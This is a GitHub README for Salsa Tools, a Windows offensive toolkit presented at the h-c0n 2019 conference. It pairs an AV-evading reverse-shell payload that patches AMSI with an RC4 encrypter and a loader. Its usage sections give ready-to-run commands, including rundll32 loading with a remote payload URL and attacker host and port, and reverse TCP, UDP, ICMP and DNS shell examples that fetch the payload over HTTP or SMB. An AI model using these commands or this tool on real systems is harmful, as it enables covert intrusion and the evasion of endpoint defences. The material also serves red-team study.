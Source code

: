 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  

```
**Salsa Tools - An AV-Safe Reverse Shell dipped on bellota sauce  

Salsa Tools is a collection of three different tools that combined, allows you to get a reverse shell on steroids in any Windows environment without even needing PowerShell for it's execution. In order to avoid the latest detection techniques (AMSI), most of the components were initially written on C#. Salsa Tools was publicly released by Luis Vacas during his Talk “Inmersión en la explotación tiene rima” which took place during h-c0n in 9th February 2019.


## Features
    * TCP/UDP/ICMP/DNS     
    * AV Safe (17th February)
    * AMSI patchers
    * PowerShell execution 
    * ...
    
## Overview
Salsa-Tools is made from three different  ingredients:
    - EvilSalsa
    - EncrypterAssembly
    - SalseoLoader
And his behavior is as it follows:



## Setup
### Requirements
 - Visual Studio 2017 (or similar)
 - Python 2.7       
### Running la Salsa
#### Cooking EvilSalsa

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```

EvilSalsa is the key ingredient of this recipe. It contains the payload, which is executed on the system as it follows: as soon as the payloads starts, it runs `System.Management.Automation.dll` which creates a runspace . Within that runspace we have four types of shells (TCP / UDP / ICMP / DNS). Once EvilSalsa is loaded, first thing first, the existence of `c:\windows\system32\amsi.dll` is checked. If it exists, it is patched using a home-cooked variant of CyberArk and Rastamouse bypasses.


#### Mixing EncrypterAssembly and Evilsalsa
```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```

EncrypterAssembly can be used as a Python script or as a Exe binary.
It encrypts the previously generated EvilSalsa.

Python usage:
```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```
Executable usage:
```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
#### Bringing the Encrypted EvilSalsa to the table with SalseoLoader
SalseoLoader is in charge of loading the encrypted payload. Can be both compiled as a library or as an executable. If it is run as an executable, the chosen arguments must be provided when the executable is run. If it is compiled as a library, the descriptor "main" must be exported. Arguments are added using environmental variables.

Executable usage:
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```
Library usage on Powershell:
```
set $env:pass="password"
set $env:payload="http://10.10.10.10/evil.txt"
set $env:lhost="10.10.10.10"
set $env:lport="1337"
set $env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

Library usage on CMD:
```
set pass="password"
set payload="http://10.10.10.10/evil.txt"
set lhost="10.10.10.10"
set lport="1337"
set shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

## Examples
### SalseoLoader (executable version) running Encrypted EvilSalsa (UDP mode) from a web server:
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)

### SalseoLoader (executable version) running Encrypted EvilSalsa (TCP mode) locally:
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversetcp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example2.png)
## SalseoLoader (executable version) running Encrypted EvilSalsa (ICMP mode) from SMB:
```
SalseoLoader.exe hc0n-2019 \\192.168.1.235\evil\elmal.txt reverseicmp 192.168.1.235 
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example3.png)

## SalseoLoader (executable version) running Encrypted EvilSalsa (DNS mode) locally:
## Example ReverseDNS
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversedns 192.168.1.235 licordebellota.org
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example4.png)


